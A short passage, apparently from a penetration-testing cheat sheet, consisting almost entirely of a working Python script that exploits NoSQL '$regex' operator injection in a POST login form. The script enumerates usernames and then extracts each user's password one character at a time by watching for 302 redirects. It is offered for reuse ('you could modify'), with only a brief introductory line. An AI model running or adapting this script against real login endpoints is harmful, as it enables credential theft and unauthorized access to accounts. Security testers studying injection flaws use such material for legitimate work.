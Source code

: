 ### Brute-force login usernames and passwords from POST login
This is a simple script that you could modify but the previous tools can also do this task.
```python
import requests
import string

url = "http://example.com"
headers = {"Host": "exmaple.com"}
cookies = {"PHPSESSID": "s3gcsgtqre05bah2vt6tibq8lsdfk"}
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
    print("Extracting password of "+username)
    params = {"username":username, "password[$regex]":"", "login": "login"}
    password = "^"
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
            if int(pr.status_code) == 302:
                password += c
                break
        if c == possible_chars[-1]:
            print("Found password "+password[1:].replace("\\", "")+" for username "+username)
            return password[1:].replace("\\", "")

def get_usernames():
    usernames = []
    params = {"username[$regex]":"", "password[$regex]":".*", "login": "login"}
    for c in possible_chars:
        username = "^" + c
        params["username[$regex]"] = username + ".*"
        pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
        if int(pr.status_code) == 302:
            print("Found username starting with "+c)
            while True:
                for c2 in possible_chars:
                    params["username[$regex]"] = username + c2 + ".*"
                    if int(requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False).status_code) == 302:
                        username += c2
                        print(username)
                        break

                if c2 == possible_chars[-1]:
                    print("Found username: "+username[1:])
                    usernames.append(username[1:])
                    break
    return usernames


for u in get_usernames():
    get_password(u)

```
